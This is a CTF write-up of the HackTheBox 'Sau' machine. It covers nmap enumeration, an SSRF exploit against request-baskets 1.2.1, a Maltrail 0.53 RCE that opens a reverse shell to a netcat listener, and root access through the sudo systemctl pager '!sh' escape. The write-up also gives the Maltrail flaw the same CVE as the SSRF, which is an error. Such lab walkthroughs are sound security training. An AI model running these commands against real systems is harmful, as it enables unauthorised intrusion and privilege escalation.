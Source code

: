 ```yaml
---
layout: post
title: "Sau writeup"
tags: ["Writeups", "HackTheBox", "CTF", "Request-Baskets-1.2.1", "CVE-2023-27163", "SSRF", "Maltrail-0.53", "RCE", "Spawn-Shell-Systemctl-Pager"]
author: Federico Fantini
meta: "This box starts with a site that hosts request-baskets at version 1.2.1 which is vulnerable to CVE-2023-27163 (SSRF). After exploiting the vulnerability I access hidden resources on other ports and find Maltrain at version 0.53 which is vulnerable to CVE-2023-27163 (RCE). I can exploit this vulnerability and become the user. To become root just look at what you can do with sudo and take advantage of systemctl's default pager"
---
```


# INDEX
- [INDEX](#index)
  - [Enumeration](#enumeration)
  - [Privesc puma](#privesc-puma)

<br><br>

![Sau box HTB](/ctf-journal/assets/images/machines/Sau/Sau.png)

## Enumeration

- `nmap -A -p- -T4 10.10.11.224`
    ```
    PORT      STATE    SERVICE VERSION
    22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 aa8867d7133d083a8ace9dc4ddf3e1ed (RSA)
    |   256 ec2eb105872a0c7db149876495dc8a21 (ECDSA)
    |_  256 b30c47fba2f212ccce0b58820e504336 (ED25519)
    80/tcp    filtered http
    8338/tcp  filtered unknown
    55555/tcp open     unknown
    | fingerprint-strings: 
    |   FourOhFourRequest: 
    |     HTTP/1.0 400 Bad Request
    |     Content-Type: text/plain; charset=utf-8
    |     X-Content-Type-Options: nosniff
    |     Date: Sun, 30 Jul 2023 20:04:04 GMT
    |     Content-Length: 75
    |     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
    |   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
    |     HTTP/1.1 400 Bad Request
    |     Content-Type: text/plain; charset=utf-8
    |     Connection: close
    |     Request
    |   GetRequest: 
    |     HTTP/1.0 302 Found
    |     Content-Type: text/html; charset=utf-8
    |     Location: /web
    |     Date: Sun, 30 Jul 2023 20:03:38 GMT
    |     Content-Length: 27
    |     href="/web">Found</a>.
    |   HTTPOptions: 
    |     HTTP/1.0 200 OK
    |     Allow: GET, OPTIONS
    |     Date: Sun, 30 Jul 2023 20:03:38 GMT
    |_    Content-Length: 0
    1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
    SF-Port55555-TCP:V=7.93%I=7%D=7/30%Time=64C6C21A%P=x86_64-pc-linux-gnu%r(G
    SF:etRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/html;\
    SF:x20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Sun,\x2030\x20Jul\x20
    SF:2023\x2020:03:38\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\"/w
    SF:eb\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Re
    SF:quest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x
    SF:20close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.0\x202
    SF:00\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Sun,\x2030\x20Jul\x20
    SF:2023\x2020:03:38\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest
    SF:,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;
    SF:\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request"
    SF:)%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20tex
    SF:t/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20
    SF:Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nCon
    SF:tent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\
    SF:r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x20400\
    SF:x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nC
    SF:onnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionReq,67,"
    SF:HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20c
    SF:harset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(K
    SF:erberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text
    SF:/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20R
    SF:equest")%r(FourOhFourRequest,EA,"HTTP/1\.0\x20400\x20Bad\x20Request\r\n
    SF:Content-Type:\x20text/plain;\x20charset=utf-8\r\nX-Content-Type-Options
    SF::\x20nosniff\r\nDate:\x20Sun,\x2030\x20Jul\x202023\x2020:04:04\x20GMT\r
    SF:\nContent-Length:\x2075\r\n\r\ninvalid\x20basket\x20name;\x20the\x20nam
    SF:e\x20does\x20not\x20match\x20pattern:\x20\^\[\\w\\d\\-_\\\.\]{1,250}\$\
    SF:n")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:
    SF:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20
    SF:Bad\x20Request")%r(LDAPSearchReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request
    SF:\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20clo
    SF:se\r\n\r\n400\x20Bad\x20Request");
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    ```

- by opening the site [http://10.10.11.224:55555/web](http://10.10.11.224:55555/web) I see that it hosts request-baskets at version 1.2.1 which is vulnerable to CVE-2023-27163. The exploit for this SSRF is [https://github.com/entr0pie/CVE-2023-27163](https://github.com/entr0pie/CVE-2023-27163)

    I use the exploit to access local resources listed by nmap through the proxy offered by `request-baskets`:

    - `./CVE-2023-27163.sh "http://10.10.11.224:55555" "http://127.0.0.1:8338"`

    - `./CVE-2023-27163.sh "http://10.10.11.224:55555" "http://127.0.0.1:80"`

    _NOTE: for the exploit to actually work you need to visit/query the URL that `request-baskets` returns (ex: http://10.10.11.224:55555/sflzwb)_

- by opening the URL from the browser in both cases `Maltrail` version 0.53 is hosted, in the first case it seems not to work due to the broken CSS while in the second case you see the login screen. This specific version is vulnerable to CVE-2023-27163. The exploit for this Unauthenticated RCE is: https://github.com/spookier/Maltrail-v0.53-Exploit

    - I listen with netcat on port 4444: `nc -lnvp 4444`

    - `python3 exploit.py $(ifconfig tun0 | grep inet | head -n 1 | awk '{ print $2 }') 4444 http://10.10.11.224:55555/sflzwb/login`
        
    bingo! I got reverse shell as user

<br><br>

## Privesc puma

- I get a better shell with:
    ```bash
    python -c ‘import pty; pty.spawn(“/bin/bash”)’
    ```

- `sudo -l`
    ```
    Matching Defaults entries for puma on sau:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User puma may run the following commands on sau:
        (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
    ```

    I can become root very simply via: https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-systemctl-privilege-escalation/#spawn-shell-in-the-pager
    
    another reference: https://gtfobins.github.io/gtfobins/systemctl/

    ```
    !sh
    ```
    
    so if I can run `systemctl status foo` as root I can spawn another shell in it as root!

    _NOTE: It's exactly the same for `vim`: https://gtfobins.github.io/gtfobins/vim/_